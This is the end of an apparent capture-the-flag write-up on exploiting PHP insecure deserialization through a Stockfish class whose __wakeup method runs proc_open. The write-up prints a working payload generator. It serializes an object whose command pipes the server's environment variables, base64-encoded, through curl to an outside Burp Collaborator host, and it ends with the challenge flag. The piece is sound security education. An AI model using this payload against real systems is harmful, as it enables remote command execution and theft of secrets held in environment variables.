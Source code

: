 ```php
            fwrite($this->pipes[0], "isready\n");
        }
    }

    public function passPosition(string $fen)
    {
        fwrite($this->pipes[0], "position fen $fen\n");
        fwrite($this->pipes[0], "go movetime $this->thinking_time\n");
    }

    public function readOutput()
    {
        while (true) {
            usleep(100);
            $s = fgets($this->pipes[1], 4096);
            $str .= $s;
            if (strpos(' '.$s, 'bestmove')) {
                break;
            }
        }
        return $s;
    }

    public function __toString()
    {
        return fgets($this->pipes[1], 4096);
    }

    public function __wakeup()
    {
        $this->process = proc_open($this->binary, $this->descriptorspec, $this->pipes, $this->cwd, null, $this->other_options) ;
        echo '<!--'.'wakeupcalled'.fgets($this->pipes[1], 4096).'-->';
    }
}
```

This small PHP code will generate our base64 encoded payload:

```php
<?php

class Stockfish
{
    public $cwd = "./";
    public $binary = 'env|base64| curl -X POST --data-binary @- a8jxxhwp8su07krjp21elz93musrgg.oastify.com';
    public $other_options = array('bypass_shell' => 'true');
    public $descriptorspec = array(
        0 => array("pipe","r"),
                1 => array("pipe","w"),
    );
}

$a = new Stockfish();
$b = serialize($a);

echo base64_encode($b);
```

Once we send the request we will receive the content of environment variable via our Burp collaborator instance.

Flag: https://h4ck1ng.google/solve/rc3_l1k3_4_tru3_ch355_m45t3r

[^docker-for-pentester]: [Docker for Pentesters](https://blog.ropnop.com/docker-for-pentesters/)
[^insecure-deserialization]: [Insecure deserialization](https://portswigger.net/web-security/deserialization)
[^ssrf]: [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)